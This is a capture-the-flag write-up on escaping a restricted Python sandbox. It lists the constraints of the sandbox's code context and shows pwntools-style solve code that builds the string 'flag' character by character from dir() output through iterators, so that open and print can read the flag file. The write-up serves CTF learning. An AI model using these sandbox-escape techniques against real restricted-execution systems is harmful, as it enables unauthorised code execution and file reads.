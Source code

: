 To recap, our payload must adhere to the following restrictions:

+ Must be valid python code(lol)
+ Must still be valid under the new CodeType context, which means that*:
    + Only None is allowed as a constant
    + Only the functions in "names" are usable
    + Only one local variable named "a" is allowed**
+ Must not use any integers except 0



<sub>* There may also be other restrictions such as the stack size but I didn't encounter them when solving this
** I'm not entirely sure if this is true, since I had trouble using it and ended up using a var in "names" as my working variable
</sub>

So, with these restrictions in mind, the general idea of my solve is as follows:
+ First, make sure the index of the functions I want to use aligns with the new names index
```py
p.sendline((builtins[0] + " = None").encode())
p.sendline(("dir").encode())
p.sendline(("dir().__iter__").encode())
p.sendline((builtins[2] + " = None").encode())
p.sendline(("dir().__iter__().__next__").encode())
p.sendline(b"print")
p.sendline(b"open")
```
+ Call dir() which returns a list of string objects, and call dir() on the first string(retrieved with dir()[None != None]). This will grant us more than enough strings to construct a "flag" string.
(Note that normal dir() won't return nearly as much as normal due to the "names" code type change)
```py
str_dir = f"dir(dir()[{val(0)}])"
```

+ For each character we want to use, navigate the string dir with iterators, and pull out individual characters with iterators too.
```py
def _dfind(pos1, pos2):
    #outer
    str_dir = f"dir(dir()[{val(0)}])"
    sl(f"{builtins[0]} = {str_dir}")
    sl(f"{builtins[0]} = {builtins[0]}.__iter__()")
    if pos1 > 0:
        for i in range(pos1):
            sl(f"{builtins[0]}.__next__()")

    sl(f"{builtins[0]} = {builtins[0]}.__next__().__iter__()")

    if pos2 > 0:
        for i in range(pos2):
            sl(f"{builtins[0]}.__next__()")
        sl(f"{builtins[0]} = {builtins[0]}.__next__()")
```
+ Save both the iterator and the temporary string in variables provided by "names"
```py
dfind("f")

sl(f"{builtins[2]} = {builtins[0]}")
dfind("l")

sl(f"{builtins[2]} += {builtins[0]}")
dfind("a")

sl(f"{builtins[2]} += {builtins[0]}")
dfind("g")

sl(f"{builtins[2]} += {builtins[0]}")
```